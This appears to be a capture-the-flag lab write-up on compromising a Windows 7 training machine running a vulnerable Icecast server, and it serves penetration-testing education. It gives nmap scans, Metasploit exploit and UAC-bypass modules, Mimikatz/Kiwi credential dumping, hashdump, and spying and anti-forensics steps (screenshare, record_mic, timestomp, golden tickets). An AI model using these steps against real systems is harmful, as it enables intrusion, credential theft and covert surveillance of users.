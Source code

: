 ## ==**Recon Stage**==
> - Perform SYN scan on all ports.
```
nmap -sS -p- -vv -o nmap_scan.txt 10.10.51.67
```
> The above scan took way too long.
> - Performing an OS, version, script scan, and trace route *==-A==* with timing set with *==-T4==* on all ports.
```
nmap -A -T4 -p- -vv -o nmap_scan.txt 10.10.51.67
```
![[recon_1.png]]![[recon_2.png]]![[recon_3.png]]
#### Interesting findings
> *==MSRDP==* running on port ==3389==
> *==SMB==* running on port ==139, 445==
> ==*Icecast*== running on port ==8000==
> *==CommonName==* of *==DARK-PC==*
> Windows 7 Professional 7601



## **==Access Stage**==
>	- Research on Icecast shows that, that version is highly vulnerable to ==*Execute Code Overflow*== `CVE-2004-1561`.
>	- Search in ==*Metasploit*== for Icecast.
>	- `msfconsole`![[access_1.png]]
>	- Use the found module add the required options, and make sure that the *==LHOST==* option has the *==VPN IP==*.
>	- Run the exploit `run` or `exploit`.
>	- Meterpreter session opened. ![[access_2.png]]


## **==Privilege Escalation Stage**==
>	- Found user running the last Icecast process with `getuid`.
>	- Found build of windows with `sysinfo` although it was already found during recon stage.
>	- `run post/multi/recon/local_exploit_suggester` as recommended.
>	- Too many exploits to list.![[privesc_1.png]]
```
use exploit/windows/local/bypassuac_eventvwr
```
>	- Make sure that LHOST is set to the VPN IP and set `SESSION`.![[privesc_2.png]]
>	- `run` the exploit.![[privesc_3.png]]
>	- Verify expanded permissions using `getprivs`
>	- To change ownership of files use `SeTakeOwnershipPrivilege`


## ==**Looting Stage==**
>	- List the processes using `ps`![[looting_1.png]]
>	- To interact with the *==lsass==* service; the service responsible for authentication within Windows, we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and has the same permissions. The chosen service is printer spool `spoolsv.exe`.
>	- Migrate to the process using `migrate -N spoolsv.exe`.
>	- Check user with `getuid`.![[looting_2.png]]
>	- Load *==Mimikatz==* tool; a tool famous for password dumping, with `load kiwi` (Kiwi is the updated version of Mimikatz).
>	- Use `help` command to check for newly added Kiwi commands.
>	- Command `creds_all` retrieves all credentials.
>	- Run `creds_all`.![[looting_3.png]]![[looting_4.png]]
>	- *Mimikatz* allows us to steal this password out of memory even without the user ==Dark== logged in as there is a scheduled task that runs the *Icecast* as the user ==Dark==.
>	-  It also helps that *Windows Defender* & *Firewall* isn't running on the box.


## **==Post-Exploitation Stage==**
>	- Dump all the hashes stored on the system using `hashdump`.
>	- Watch the remote user's desktop in real time using `screenshare`.
>	- Record from a microphone attached to the system using `record_mic`.
>	- Modify timestamps of files on the system using `timestomp`.
>	- Mimikatz allows us to create a `golden ticket`, which allows us to authenticate anywhere with ease, use `golden_ticket_create`.
>	- `run post/windows/manage/enable_rdp` to remote into machines and view them as their users do.![[post_exploit_1.png]]
>